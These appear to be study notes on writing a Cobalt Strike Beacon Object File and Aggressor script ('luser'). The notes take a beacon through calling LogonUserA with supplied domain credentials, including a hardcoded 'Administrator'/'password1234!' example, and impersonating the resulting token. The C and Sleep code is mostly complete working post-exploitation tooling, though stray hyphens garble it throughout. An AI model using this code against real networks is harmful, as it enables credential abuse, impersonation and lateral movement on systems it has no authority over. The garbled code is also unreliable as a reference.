

documentation
- We have a token we have generated
- Thats what the "hToken" is
- nothing has been done with it though
- Now we will have beacon take on the token
- we can use the internal API's from the documentation to find what will work best
- 
new code labeled in whatever this color is
===================================================
#include <windows.h>
#include "beacon.h"
- WINADVAPI WINBOOL WINAPI ADVAPI32$LogonUserA (LPCSTR lpszUsername,LPCSTR lpszDomain, LPCSTR lpszPassword, DWORD dwLogonType, DWORD dwLogonProvider, PHANDLE phToken);
WINBASEAPI WINBOOL WINAPI KERNEL32$GetLastError (VOID);
WINBASEAPI DWORD WINAPI KERNEL32$CloseHandle (HANDLE hObject);
void go(char * buff, int len) {- HANDLE hToken;
- // we are also gonna call BeaconIsAdmin to check if we are in a privileged state
- // if beacon is NOT admin, send an error
- if (!BeaconIsAdmin()) {
- BeaconPrintf(CALLBACK_ERROR, "You must be admin to use this!");
- return;
- }
-
- if (ADVAPI32$LogonUserA("Administrator", "CORP", "password1234!", LOGON_32_LOGON_INTERACTIVE, LOGON32_PROVIDER_DEFAULT, &hToken)) {
- BeaconUseToken(hToken); // BeaconUseToken will print a message on success, so we can remove the BeaconPrintf
- KERNEL32$CloseHandle(hToken);
- }
- else {
- BeaconPrintf(CALLBACK_ERROR, "Failure: %d", KERNEL32$GetLastError());
- }
-
}
============================================================


The next step is to not have hard coded arguments, this will set up to become an aggressor scriptfor import
- create a .cna,in our case luser.cna
============================================================
# $1 = beacon ID
# $2 = DOMAIN\user
# $3 = password
alias luser {- local('$handle $data $args $domain $user $pass');
- # check our arguments
- if (size(@_) != 3) {
- berror($1, "luser: not enough arguments");
- return;
- }
- #parse our arguments
- ($domain, $user) = split('\\\\', $2); #need to escape twice
- $pass = $3;
- # read in our BOF file.....
- $handle = openf(script_resource("luser.x64.o"));
- $data = readb($handle, -1);
closef($handle);-
- # pack our arguments using bof_pack, which acceptsbeacon idand format string
-
$args =bof_pack($1, "zzz", $domain, $user, $pass);
- # annouce to user...
- btasks($1, "create token as $2");
-
- # run a BOF
- beacon_inline_execute($1, $data, "go", $args);
}
============================================================
# accepts beacon ID as first parameter, then a format string | format string= NULL terminated 8 byte strings- # then we also give the domain and user/password
For the arguments, the aggressor script is going to - - take the $domain $user $pass parameters
- - going to add a NULL terminator to it
- - then convert it to java's internal UTF-16 encoding to the platform encoding for the beacon session
- The reason we are reading the line with $data, is because the cobalt strike API
- expects to receive the BOF file as a byte array
The reason for this is so that we have the option to base64 encode the file and embed it into your script
next step